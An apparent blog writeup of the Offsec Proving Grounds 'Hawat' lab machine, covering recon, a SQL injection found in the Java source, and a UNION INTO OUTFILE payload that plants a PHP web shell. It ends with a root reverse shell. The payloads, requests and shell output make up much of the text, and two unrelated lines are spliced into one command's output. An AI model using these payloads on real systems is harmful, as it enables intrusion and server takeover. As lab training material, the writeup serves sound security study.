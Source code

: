 ```yaml
---
title: "Proving grounds Play: Hawat"
layout: post
date: 2023-10-16 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- RCE
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
22/tcp    open  ssh     OpenSSH 8.4 (protocol 2.0)
17445/tcp open  unknown
30455/tcp open  http    nginx 1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
```

## 17445/tcp open  unknown

http://192.168.156.147:17445/

![img](/assets/images/CTF/Proving_Grounds/Hawat/web1.png)

Register an user account on the portal.

## 30455/tcp open  http    nginx 1.18.0

http://192.168.156.147:30455/

http://192.168.156.147:30455/phpinfo.php

**Required UInfo**

```text
Document root = /srv/http
server port = 30455
server user = root
```

## 50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)

### Directory discovery

```sh
[11:31:15] 301 -  243B  - /cloud  ->  http://192.168.156.147:50080/cloud/
```

![img](/assets/images/CTF/Proving_Grounds/Hawat/web2.png)

Next cloud login page, use credentials `admin:admin` to login.

![img](/assets/images/CTF/Proving_Grounds/Hawat/web3.png)

Download and extract the `issuetracker.zip` file in the local machine. Open the extracted file in a text editor to review the code.

Upon reviewing the code, found that the application is vulnerable to sql injection vulnerability.

```java
	@GetMapping("/issue/checkByPriority")
	public String checkByPriority(@RequestParam("priority") String priority, Model model) {
		// 
		// Custom code, need to integrate to the JPA
		//
	    Properties connectionProps = new Properties();
	    connectionProps.put("user", "issue_user");
	    connectionProps.put("password", "ManagementInsideOld797");
        try {
			conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
		    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";           //variable priority is not sanitized or no input validation is implemented
            System.out.println(query);
		    Statement stmt = conn.createStatement();
		    stmt.executeQuery(query);

        } catch (SQLException e1) {
			// TODO Auto-generated catch block
			e1.printStackTrace();
		}
		
        // TODO: Return the list of the issues with the correct priority
		List<Issue> issues = service.GetAll();
		model.addAttribute("issuesList", issues);
		return "issue_index";
        
	}
```

On the above code the variable `priority` is not properly validated against the injection vulnerabilities and by using `UNION` based injection we can achieve remote code execution.

## Foothold

Login to the application running on `http://192.168.217.147:17445/login` with the registered credentials. Construct a POST request as per the code `/issue/checkByPriority?priority=Normal`.

> Note: GET method is not supported for the endpoint.

```http
POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5)+--+ HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

SQL injection is confirmed.

**RCE Payload**

```text
Normal' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/srv/http/rce.php" -- 
```

URL encode the payload and send it to the server.

```http
POST /issue/checkByPriority?priority=Normal%27%20UNION%20SELECT%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%22%2Fsrv%2Fhttp%2Frce.php%22%20--%20 HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

Navigate to the `http://192.168.217.147:30455/rce.php?cmd=id` location to perform code execution.

```sh
naveenj@hackerspace:|22:03|~/proving_grounds/Hawat$ curl 'http://192.168.217.147:30455/rce.php?cmd=id'
Windows 10 keeps telling me to update, why?
Is allowed to use torrent sites in the corporate network?
uid=0(root) gid=0(root) groups=0(root)
```

Create PHP reverse shell file and use port as 443 to get reverse shell. Download the php file to the server and place it on `/srv/http` folder to access it publicly.

> Note: The server only allows port 443 so run python server on the same to download the reverse shell code to the attacking machine.

```sh
naveenj@hackerspace:|22:09|~/proving_grounds/Hawat$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.186] from (UNKNOWN) [192.168.217.147] 55270
Linux hawat 5.10.14-arch1-1 #1 SMP PREEMPT Sun, 07 Feb 2021 22:42:17 +0000 x86_64 GNU/Linux
 02:11:10 up 28 min,  0 users,  load average: 0.06, 0.05, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
sh: cannot set terminal process group (575): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```

**Foothold Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).